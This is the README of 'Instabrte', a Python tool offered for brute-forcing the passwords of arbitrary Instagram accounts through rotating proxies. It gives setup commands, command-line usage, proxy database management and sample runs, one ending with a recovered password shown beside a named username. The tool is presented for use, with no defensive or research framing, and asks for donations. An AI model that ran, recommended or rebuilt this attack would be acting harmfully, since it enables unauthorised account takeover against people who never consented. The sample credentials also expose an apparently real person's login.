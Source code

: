 # Instabrte

[![Version](https://img.shields.io/badge/Version-3.1.0-green)]()
[![Python](https://img.shields.io/badge/Python-v3.9-yellow)]()
[![Discord](https://img.shields.io/badge/Telegram-blue)](https://t.me/bhaskarvilles)
[![Donate](https://img.shields.io/badge/PayPal-donate-orange)](https://www.bhaskarvilles.live/donate.html)

This program will brute force any Instagram account you send it its way given a list of proxies.

### Support

It motivates me to keep updating this program.


>**Bitcoin:** 195DLtMLCU78zedUDSkZQgUMzaEyffPwsN

>**UPI:** bhaskarfederal@axl

## Requirements

- Python _v3.9_
- proxy list

## Install Dependencies

### Install Pipenv

```
pip install pipenv
```

### Create environment

Make sure you have Python 3.9 installed

```
pipenv --python 3.9
```

### Install Requirements

```
pipenv install
```

## Help

```
usage: instabrte.py [-h] [-u USERNAME] [-p PASSLIST] [-px PROXYLIST] [--prune PRUNE] [--stats] [-nc] [-m MODE]

optional arguments:
  -h, --help            show this help message and exit
  -u USERNAME, --username USERNAME
                        email or username
  -p PASSLIST, --passlist PASSLIST
                        password list
  -px PROXYLIST, --proxylist PROXYLIST
                        proxy list
  --prune PRUNE         prune the database
  --stats               get statistics of the proxies
  -nc, --no-color       disable colors
  -m MODE, --mode MODE  modes: 0 => 32 bots; 1 => 16 bots; 2 => 8 bots; 3 => 4 bots
```

## Proxies

The system needs a list of proxies to work. Once uploaded, proxies are saved into a database.<br/>

### Upload
```
python instabrte.py -px <path to proxy list>
```

### Stats

This gives an insight into the health of the proxies in the database.

```
python instabrte.py --stats
```

### Prune

This allows the able to get rid of proxies with a score below a given score.<br/>
It is recommended that you run the `--stats` and prune the database of proxies<br/>
who have a proxy score below `Q1`.

```
python instabrte.py --prune 0.05
```

Pruning is not a requirement because the <br/>
the system will automatically learn which proxies perform poorly and stop using them.

### Usage

```
python instabrte.py -u <username> -p <passlist>
```

### Run

```
[-] Wordlist: passlist.txt
[-] Username: Sami09.1
[-] Password: 272
[-] Complete: 45.51%
[-] Attempts: 228
[-] Browsers: 273
[-] Exists: True
```

### Stop

```
[-] Wordlist: passlist.txt
[-] Username: Sami09.1
[-] Password: Sami123
[-] Complete: 62.67%
[-] Attempts: 314
[-] Browsers: 185
[-] Exists: True

[!] Password Found
[+] Username: Sami09.1
[+] Password: Sami123
```
